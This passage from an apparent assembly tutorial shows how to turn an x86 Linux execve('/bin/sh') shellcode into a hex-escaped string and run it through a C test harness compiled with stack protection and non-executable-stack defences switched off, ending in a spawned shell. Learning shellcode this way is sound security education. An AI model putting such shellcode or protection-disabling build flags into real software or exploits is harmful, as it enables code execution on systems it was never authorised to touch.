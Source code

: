 ```
  \xb0
  \x0b
  \xcd
  \x80
```
Nearly! Fortunately echo has a -n flag that prevents it from printing newlines
```
  $ for i in $(objdump -d execve.o | grep "^ " | cut -f2); do echo -n '\x'$i; done
\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80$
```
So close!!!! We can just put an extra echo at the end
```
  $ for i in $(objdump -d execve.o | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo
  \x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
  $
```
# Test the shellcode
Now to test the shellcode we need a program we can put this in to run it. Below
is a C program whic I did not create myself (Thanks Vivek from
[SecurityTube](http://www.securitytube.net)

{{< highlight c >}}
#include <stdio.h>
#include <string.h>

unsigned char code[] = \
"\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f" \
"\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89" \
"\xe1\xb0\x0b\xcd\x80";

main()
{

  printf("Shellcode Length:  %d\n", strlen(code));

        int (*ret)() = (int(*)())code;

        ret();

}
{{< / highlight >}}

This program just passes execution to our shellcode which we placed in the code
string. Compile it using 
```
  $ gcc -fno-stack-protector -z execstack -o shell_test shell_test.c
  $ ./shell_test 
  Shellcode Length:  25
  $  
```
as you can see the program printed the length of the shellcode and then passed
control of execution to our shellcode and we have now ended up with a shell!

Hope you enjoyed this. Check out [SecurityTube](http://www.securitytube.net)
they have free videos on x86 linux and windows assembly if you are interested in
that sort of thing!
